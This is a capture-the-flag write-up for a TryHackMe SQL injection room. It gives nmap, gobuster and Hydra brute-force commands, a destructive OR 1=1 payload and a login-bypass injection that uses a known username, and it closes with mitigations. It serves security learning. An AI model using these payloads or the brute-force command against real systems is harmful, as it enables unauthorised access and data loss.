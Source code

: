 [Lesson Learned?](https://tryhackme.com/room/lessonlearned)

**Difficulty:** Easy 

**Objective:** Identify and exploit SQL injection safely to bypass login and retrieve the flag without triggering destructive queries.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.157.160  
**Service/Ports:** 22/SSH, 80/HTTP  
**Entry Point:** SQL injection on login form  
**Privilege Escalation:** Not applicable  
**Outcome:** Login bypass via crafted injection using valid username, flag retrieved

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Post-Exploitation  
5. Reporting

---

## 3. Reconnaissance  
Ran Nmap scan:  
nmap -sS -sV 10.10.157.160  
Result:  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1  
80/tcp open  http    Apache httpd 2.4.54 (Debian)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

---

## 4. Enumeration  
Used Gobuster to look for web directories:  
gobuster dir -u http://10.10.157.160/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
Result:  
/manual (Status: 301)

---

## 5. Exploitation  
Initial attempt:  
Tried SQL injection with `' OR '1'='1' --`  
Resulted in:  
- Warning about OR 1=1 causing DELETE statements to wipe data  
- Flag was deleted, and the box had to be reset  
Lesson: OR 1=1 can be dangerous, especially when queries are reused in UPDATE/DELETE contexts

After resetting the box, ran Hydra to brute-force usernames:  
hydra -L /usr/share/wordlists/names.txt -p test123 10.10.102.103 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password" -f -V -o found_users.txt  
Found users:  
arnold, karen, kelly, marcus, martin, naomi, patrick, sophia, stuart, veronica, etc.

Crafted safer SQL injection using known username:  
karen' AND ''=''--  
This worked, bypassing login and displaying the flag  
App logic was likely expecting 1 exact matching row, and this injection preserved that behavior

---

## 6. Privilege Escalation  
Not applicable — goal was to bypass login and retrieve the flag only

---

## 7. Post Exploitation  
No additional system access or escalation required  
Confirmed success through displayed flag and instructional message  
Message warned again about destructive OR 1=1 injections

---

## 8. Flags / Proof  
Hidden  
Root Flag: N/A

---

## 9. Mitigations  
| Vulnerability              | Risk   | Suggested Mitigation                          |  
|---------------------------|--------|-----------------------------------------------|  
| SQL Injection              | High   | Use prepared statements / parameterized queries |  
| Weak error messages        | Medium | Avoid leaking backend logic in app responses   |  
| Brute-forceable usernames  | Medium | Rate-limit login attempts, implement CAPTCHA   |

---

## 10. Notes  
Time spent: ~30 minutes  
Tools used: nmap, gobuster, hydra, browser  
Lessons learned:  
- OR 1=1 is risky and can cause unintentional data destruction  
- Safer SQL injections can target logic paths without mass row selection  
- Always understand the backend query context before testing injections















